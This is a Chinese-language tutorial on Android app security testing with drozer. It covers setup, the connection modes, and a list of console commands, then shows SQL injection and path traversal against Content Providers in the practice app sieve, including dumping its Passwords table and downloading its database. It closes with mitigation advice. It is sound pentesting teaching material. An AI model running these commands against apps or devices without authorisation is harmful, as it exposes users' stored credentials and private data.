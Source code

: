 # Android App Injection&&Drozer Use

0x01 准备工作
---------

* * *

测试环境：

1) 手机root权限

2) Adb.exe

3) 手机usb连接开启debug模式(在设置>关于手机>连续点击多次版本号，即可开启开发者模式)

4) Window下安装[drozer](https://www.mwrinfosecurity.com/products/drozer/community-edition/)

5) 安装完drozer后在其目录下把agent.apk安装到手机

6)[WebContentResolver.apk](https://labs.mwrinfosecurity.com/system/assets/116/original/WebContentResolver.zip)

7) 附带测试案例使用app[sieve](https://www.mwrinfosecurity.com/system/assets/380/original/sieve.apk)

0x02 drozer安装与使用
----------------

* * *

**安装**

1) windows安装 下载：

https://www.mwrinfosecurity.com/products/drozer/community-edition/

在Android设备中安装agent.apk：

```
>adb install agent.apk

```

或者直接连接USB把文件移动到内存卡中安装

2) *inux安装（Debian/Mac）

```
$ wget http://pypi.python.org/packages/2.7/s/setuptools/setuptools-0.6c11-py2.7.egg
$ sh setuptools-0.6c11-py2.7.egg
$ easy_install --allow-hosts pypi.python.org protobuf
$ easy_install twisted==10.2.0
$ easy_install twisted ./drozer-2.3.0-py2.7.egg
$ drozer        //运行测试

```

下面介绍三种方法运行

1) USB方式

```
>adb forward tcp:31415 tcp:31415        //adb目录下运行次命令
选择drozer>Embedded Server>Enabled
>drozer.bat console connect     //在PC端drozer目录下运行此命令

```

2) Wifi方式

```
>drozer.bat console connect --server 192.168.1.12:31415  //在PC端执行192.168.1.12为android端ip和端口

```

3) Infrastructure Mode 这种模式涉及到三个通信方，drozer server、drozer agent（Android 设备中）与drozer console。

其中server与agent，server与console需要网络互通。这种模式的好处是你不需要知道android设备的ip，

agent与console的ip段可以隔离的，并且可以支持一个server对应多个设备的操作。

```
>drozer.bat server start

```

在Android设备上新建一个New Endpoint，修改配置Host为PC server端ip,并且启用Endpoint

```
>drozer console connect --server 192.168.1.2:31415      //192.168.1.2为server端ip和端口

```

**使用**

```
> list  //列出目前可用的模块，也可以使用ls
> help app.activity.forintent       //查看指定模块的帮助信息
> run app.package.list      //列出android设备中安装的app
> run app.package.info -a com.android.browser       //查看指定app的基本信息
> run app.activity.info -a com.android.browser      //列出app中的activity组件
> run app.activity.start --action android.intent.action.VIEW --data-uri  http://www.google.com  //开启一个activity，例如运行浏览器打开谷歌页面
> run scanner.provider.finduris -a com.sina.weibo       //查找可以读取的Content Provider
> run  app.provider.query content://settings/secure --selection "name='adb_enabled'"    //读取指定Content Provider内容
> run scanner.misc.writablefiles --privileged /data/data/com.sina.weibo     //列出指定文件路径里全局可写/可读的文件
> run shell.start       //shell操作
> run tools.setup.busybox       //安装busybox
> list auxiliary        //通过web的方式查看content provider组件的相关内容
> help auxiliary.webcontentresolver     //webcontentresolver帮助
> run auxiliary.webcontentresolver      //执行在浏览器中以http://localhost:8080即可访问
以sieve示例
> run app.package.list -f sieve         //查找sieve应用程序
> run app.package.info -a com.mwr.example.sieve         //显示app.package.info命令包的基本信息
> run app.package.attacksurface com.mwr.example.sieve   //确定攻击面
> run app.activity.info -a com.mwr.example.sieve         //获取activity信息
> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList     //启动pwlist
> run app.provider.info -a com.mwr.example.sieve        //提供商信息
> run scanner.provider.finduris -a com.mwr.example.sieve        //扫描所有能访问地址 
>run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/--vertical  //查看DBContentProvider/Passwords这条可执行地址
> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   //检测注入
> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts    //查看读权限数据
> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db //下载数据
> run scanner.provider.injection -a com.mwr.example.sieve       //扫描注入地址
> run scanner.provider.traversal -a com.mwr.example.sieve
> run app.service.info -a com.mwr.example.sieve         //查看服务

```

0x03 Android App Injection
--------------------------

1) 首先用drozer扫描Android应用可注入的Url

```
Dz > run scanner.provider.injection

```

![enter image description here](http://drops.javaweb.org/uploads/images/2a07e5b8fea3e5ec1354f448bf6aa65d92eaef8d.jpg)

2) 启动WebContentResolver.apk应用程序，Web界面访问url格式如下

http://localhost:8080/query?a=providers&path0=Parameter1&path1=Parameter2&pathn=parametern&selName=column&selId=id

![enter image description here](http://drops.javaweb.org/uploads/images/4c679b1acaab56fca18ca2b3fb1da5668e626ff2.jpg)

解释： providers：为content://后第一个参数比如records Parameter1：为第二个参数operations Parameter2..parametern：为后门的依次类推的参数，如果后面有这么多参数 Column：表字段例如上面字段<_id> Id：为字段数据

注意：格式必须是这样，selName、selId这两个参数第二个单词是大写的。

3) 在PC端运行adb

```
>adb forward tcp:8080 tcp:8080  //此时在地址栏输入http://localhost:8080即可访问Web界面

```

4) 以content://settings/bookmarks/为例，在地址栏输入

```
http://localhost:8080/query?a=settings&path0=bookmarks&selName=_id&selId=1

```

![enter image description here](http://drops.javaweb.org/uploads/images/4c679b1acaab56fca18ca2b3fb1da5668e626ff2.jpg)

5) 自动化结合SQLMAP

![enter image description here](http://drops.javaweb.org/uploads/images/d17aa169b2a84a14cdc1bf1adbad3a20f73323e3.jpg)

0x04 总结&&解决方案
-------------

* * *

总结：虽然很多小伙说直接用文件管理进去查看数据库更方便，我也不多说什么，就像上次看到一帖子为了查看wifi密码写了一大篇的，直接进去数据库看不就是了，我能呵呵一句么。 避免这个漏洞方法只需要指定标志读取权限和限制写入权限。如果我们不想共享存储第三方应用程序记录,另一个解决方案可以消除provider或将其设置为false。

0x05 参考：
--------

* * *

*   https://labs.mwrinfosecurity.com/blog/2011/12/02/how-to-find-android-0day-in-no-time/